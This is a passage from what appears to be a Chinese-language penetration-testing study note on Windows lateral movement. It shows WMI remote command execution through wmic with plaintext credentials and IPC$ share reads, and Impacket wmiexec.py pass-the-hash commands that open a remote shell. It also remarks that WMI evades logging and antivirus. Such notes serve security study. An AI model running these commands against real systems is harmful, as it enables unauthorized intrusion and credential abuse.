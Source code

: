     ![image-20240622120321645](Kerberos/image-20240622120321645.png)

3. 知道哪些机器可以 PTH 后，就用其他的工具获取 Shell。

#### 4.2.5 WMI - Windows Management Instrumentation

1. WMI 即 Windows 管理工具，Win98 后的操作系统都支持 WMI。
    由于 Windows 默认不会将 WMI 的操作记录在日志里，同时随着杀软将 PsExec 加入黑名单，因此 WMI 比 PsExec 要更好一点。

2. 使用 WMIC 连接远程主机，需要目标主机**开放 135 和 445 端口**。其中 135 端口是 WMIC 默认的管理端口，WMIEXEC 使用 445 端口传回显。

3. 使用命令：
    ```cmd
    # WMI 连接远程主机，并使用目标系统的 cmd 来执行命令，将执行的结果保存在目标主机的某个位置。
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 process call create "cmd.exe /c ipconfig > C:/ip.txt"
    # 建立 IPC，使用 type 命令读取执行结果
    net use \\192.168.31.2\ipc$ "password" /user:"username"
    type \\192.168.31.2\C$\ip.txt
    ```

4. 同样的，Python 的 Impacket 工具包依旧有 WMIEXEC.py 脚本：
    ```bash
    # 后面不加命令就是直接返回 Shell
    python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 administrator@192.168.31.2 "ipconfig"
    # 当然有明文也可以使用
    python3 wmiexec.py administrator:CJycjy320723@192.168.31.2
    ```

    ![image-20240622163558910](Kerberos/image-20240622163558910.png)
    